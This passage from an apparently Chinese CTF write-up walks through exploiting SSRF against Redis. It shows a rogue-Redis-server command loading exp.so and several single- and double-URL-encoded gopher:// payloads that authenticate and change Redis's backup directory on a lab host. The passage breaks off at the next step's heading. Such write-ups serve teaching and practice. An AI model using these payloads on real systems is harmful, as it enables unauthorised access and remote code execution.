```
python3 redis_rogue_server.py -v -path exp.so
```

![Rifm5j.png](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923200505.jpeg)



#### **2）修改备份文件**

前面提示文件中给出了Reids的密码，授权修改备份文件目录

```
gopher://192.168.59.129:6380/_auth welcometowangdingbeissrfme6379
config set dir /tmp/
quit
```



```
gopher://192.168.59.129:6380/_auth%2520welcometowangdingbeissrfme6379%250D%250Aconfig%2520set%2520dir%2520%252Ftmp%252F%250D%250Aquit%250D%250A
```



```
gopher://192.168.59.129:6380/_auth%2520welcometowangdingbeissrfme6379%250d%250aconfig%2520set%2520dir%2520/tmp/%250d%250aquit

gopher://192.168.59.129:6380/_auth%20welcometowangdingbeissrfme6379%0D%0Aconfig%20set%20dir%20/tmp/%0D%0Aquit%0D%0A

gopher://192.168.59.129:6380/_auth%2520welcometowangdingbeissrfme6379%250D%250Aconfig%2520set%2520dir%2520%252Ftmp%252F%250D%250Aquit%250D%250A
```

二次编码后 用notepad++ 把 win下是/r/n 

![image-20210923194440727](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923194440.png)

RESP支持的也是/R/N 所以第一次url编码后 ！ 替换%0A 为 %0D%0A 在进行一次url编码！

```
gopher://192.168.59.129:6380/_auth%2520welcometowangdingbeissrfme6379%250D%250Aconfig%2520set%2520dir%2520/tmp/%250D%250Aquit%250D%250A
gopher://192.168.59.129:6380/_auth%2520welcometowangdingbeissrfme6379%250D%250Aconfig%2520set%2520dir%2520%252Ftmp%252F%250D%250Aquit%250D%250A
```

将代码加在`url`后，访问回显正常即可

![image-20210923194624508](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923194624.png)

![image-20210923194646614](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923194646.png)

#### **3）设置备份文件名和主从对象**
